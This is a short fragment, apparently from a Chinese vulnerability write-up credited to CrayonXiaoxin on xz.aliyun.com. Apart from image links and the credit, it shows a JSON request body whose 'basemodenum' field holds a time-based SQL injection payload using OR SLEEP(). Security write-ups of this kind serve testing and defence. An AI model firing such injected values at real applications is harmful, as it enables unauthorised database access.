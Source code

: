 ```
{&#34;baseoptid&#34;:&#34;1&#34;,&#34;basemodenum&#34;:&#34;a123456' OR SLEEP(0.01)#&#34;}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7EE5RibGVpz27ibQfkIPufqOmEvDYnQxqyKHFfcuttg8mAAKSrBwpCgog/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7CJU7iaDkcA6ozuGNdhE0oLj0hAPKDHXwJDagWwJTlIRfmJxegH6wz7g/640?wx_fmt=png&from=appmsg "")  
  

```
作者：CrayonXiaoxin
原文链接：https://xz.aliyun.com/news/18185
```

  
  
